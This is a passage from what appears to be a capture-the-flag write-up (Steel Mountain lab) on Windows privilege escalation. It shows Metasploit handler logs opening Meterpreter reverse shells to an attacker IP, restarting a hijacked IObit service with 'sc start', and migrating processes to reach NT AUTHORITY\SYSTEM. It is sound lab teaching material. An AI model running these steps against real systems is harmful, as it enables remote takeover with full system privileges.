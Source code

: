 Once the handler is run, we can restart the service on the Windows Machine. However, since we have replaced the service executable, when the reverse shell is created the service will hang. Windows will detect this and terminate the service after few seconds. Hence, we need to make sure we **migrate to another service quickly** as we get the reverse connection!
#### Without Migration

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.72.115:6666 
[*] Sending stage (176198 bytes) to 10.10.82.184
[*] Meterpreter session 4 opened (10.4.72.115:6666 -> 10.10.82.184:49327) at 2024-04-19 19:52:28 +1000

meterpreter > 
[*] 10.10.82.184 - Meterpreter session 4 closed.  Reason: Died
```

```powershell
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

#### With Migration

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.72.115:9999 
[*] Sending stage (176198 bytes) to 10.10.82.184
[*] Meterpreter session 13 opened (10.4.72.115:9999 -> 10.10.82.184:49345) at 2024-04-19 20:07:07 +1000

meterpreter > run post/windows/manage/migrate

[*] Running module against STEELMOUNTAIN
[*] Current server process: Advanced.exe (2576)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 76
[+] Successfully migrated into process 76
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

We have now gained system privileges. 